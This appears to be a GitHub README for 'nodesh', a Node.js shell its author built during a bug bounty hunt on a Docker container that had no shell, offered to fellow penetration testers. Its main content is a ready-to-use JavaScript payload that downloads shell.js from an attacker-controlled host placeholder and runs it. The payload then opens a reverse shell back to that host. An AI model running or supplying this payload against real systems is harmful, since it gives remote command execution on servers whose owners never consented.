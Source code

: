 # nodesh
During a bug bounty hunt, I came across a site hosted inside a Docker container with no shell inside whatsoever, only the technology stack (in this case, Node.js) that this site was powered by. Because Node has some powerful file system enumeration APIs, I was able to write a simple shell from scratch using them, and to speed up development, decided to open source it.

Fellow ethical hackers and/or penetration testers: This tool is here for those of you who find something similar. No shell on the target, no problem; simply use the following payload to drop this and send it back:

```javascript
(function() { const { URL } = require('url'); const http = require('http'); const dest = "/tmp/shell.js"; const url = "http://YOUR_IP:PORT/shell.js"; const parsedUrl = new URL("http://YOUR_IP:PORT/shell.js"); const request = http.get(url, (response) => { if (response.statusCode !== 200) { console.log(`Download failed with status code ${response.statusCode}`); return; }; const file = fs.createWriteStream(dest); response.pipe(file);  file.on('finish', () => { console.log("Shell dropped successfully"); file.close(); (function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn("/path/to/node", [dest]); var client = new net.Socket(); client.connect(PORT, "YOUR_IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})(); }); file.on('error', (err) => { fs.unlink(dest, () => console.log(`Error downloading file: ${err}`)); }); }); } )();
```

